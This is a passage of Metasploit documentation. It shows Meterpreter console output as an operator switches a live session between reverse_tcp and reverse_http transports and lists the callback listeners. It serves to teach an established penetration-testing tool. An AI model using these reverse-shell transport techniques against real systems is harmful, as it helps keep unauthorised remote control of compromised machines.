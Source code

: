 Moving to the next transport:

```bash
meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > 
[*] 10.1.10.40:46130 (UUID: 8e97549ed2baf6a8/x86_64=2/windows=1/2015-06-02T09:56:05Z) Attaching orphaned/stageless session ...
[*] Meterpreter session 2 opened (10.1.10.40:5105 -> 10.1.10.40:46130) at 2015-06-02 20:53:54 +1000

msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```

This output shows that we moved from the original `reverse_tcp` to the `reverse_http` transport, and this is now the current transport.

Moving to the next transport again takes the session to the second `reverse_tcp` listener:

```bash
meterpreter > transport next
[*] Changing to next transport ...
[+] Successfully changed to the next transport, killing current session.

[*] 10.1.10.35 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 3 opened (10.1.10.40:5005 -> 10.1.10.35:49277) at 2015-06-02 20:54:45 +1000

msf exploit(handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:06

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
```


  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication